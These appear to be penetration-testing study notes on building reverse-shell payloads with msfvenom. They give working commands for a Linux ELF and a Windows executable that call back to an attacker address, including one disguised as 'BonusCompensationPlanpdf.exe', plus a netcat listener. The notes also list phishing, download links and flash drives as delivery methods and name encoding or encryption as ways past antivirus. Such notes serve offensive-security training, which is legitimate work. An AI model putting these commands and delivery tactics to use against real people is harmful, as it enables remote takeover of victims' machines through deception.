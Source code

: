 
List all available payloads
```shell-session
msfvenom -l payloads
```

Build a stageless payload on Linux
```shell-session
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
- Call MSFvenom
- -p is the flag to indicate creating a payload
- Linux 64-bit stageless payload that will initiate a TCP-based reverse shell
- Address and port that it will reach back to
- -f specifies the format the generated binary should be in, in this case, .elf
- > output with name of file

Executing the payload
- Phish
- Download link on a website
- Combine with Metasploit (requires internal network access already)
- Flash drive (on-site)

Make sure to listen on host for connection
```shell-session
sudo nc -lvnp 443
```


Building a stageless payload for Windows
```shell-session
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

Needed to get past AV:
- Encoding
- Encryption

